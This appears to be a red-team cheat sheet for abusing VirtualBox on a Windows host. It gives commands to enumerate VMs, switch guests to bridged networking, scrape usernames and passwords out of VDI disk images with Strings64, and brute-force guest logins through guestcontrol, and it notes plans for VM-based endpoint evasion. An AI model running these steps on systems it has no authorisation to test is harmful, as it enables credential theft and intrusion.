 # Windows

## 01 - Gathering Information

Enumerate available virtual machines.

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" list vms
```

Get the guest machine's NIC IDs, MAC & network mode (NAT/Bridged Adapter etc.).

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" showvminfo --details "<vm_name or ID>" | findstr.exe "MAC"
```

Get the guest machine's IP.

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" guestproperty enumerate "<vm_name or ID>" | findstr.exe "IP"
```

## 02 - Modify VM's Network Modes

^f2d2f1

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" VBoxManage modifyvm "<vm_name or ID>" --nic <NIC_ID> bridged
```

## 03 - Search VDI Files

```
C:\Users\%USERNAME%\VirtualBox VMs\
```

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" showvminfo --details "<vm_name or ID>" | findstr.exe "Location:"
```

## 04 - Brute Force VM Login

Copy the `Strings64.exe` sysinternals tool from a WebDAV share.

```
C:\> net.exe use z: \\live.sysinternals.com\tools

C:\> copy z:\Strings64.exe .

C:\> net.exe use z: /delete
```

You can do this in PowerShell as well.

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\Strings64.exe .

PS C:\> Remove-PSDrive -Name Z
```

Accept the EULA.

```
C:\> .\Strings64.exe /accepteula
```

Enumerate the virtual machine's username.

```
C:\> .\Strings64.exe "C:\Users\%USERNAME%\VirtualBox VMs\<VM_name>\<VM_name>.vdi" | findstr.exe "USER_ID="
```

Start the virtual machine.

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxHeadless.exe" -s "<vm_name or ID>"
```

Create a simple script to perform brute force attempts on the current virtual machine.

> [!WARNING] Security Events & Account Lockout
> The brute force attempts will generate security event 4625 and will result a lockout if the policy is configured. Usually in virtual machines it's meant to be disposable.

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" guestcontrol "<vm_name or ID>" --username <username> --password <password> run --exe "[drive_letter:/]path/to/binary"
```

## 05 - Network Scanning VMs

After modifying the virtual machine's [[#^f2d2f1|network mode]]. Scan the target to look for vulnerabilities.

## 06 - Sensitive Data

Search for credentials stored in virtual machine.

```
C:\> .\Strings64.exe "C:\Users\%USERNAME%\VirtualBox VMs\<VM_name>\<VM_name>.vdi" | findstr.exe /i password > passwords.txt
```

Enumerate username inside the virtual machine.

```
C:\> .\Strings64.exe "C:\Users\%USERNAME%\VirtualBox VMs\<VM_name>\<VM_name>.vdi" | findstr.exe /i <username> > sensitive_data.txt
```

## 07 - Creating a VM for Evasion

TODO: Write one more about deploying a VM to evade security endpoints

---
## References

- [Mrd0x: Leveraging VirtualBox During Engagements](https://mrd0x.com/leveraging-virtualbox-during-pentest-engagements/)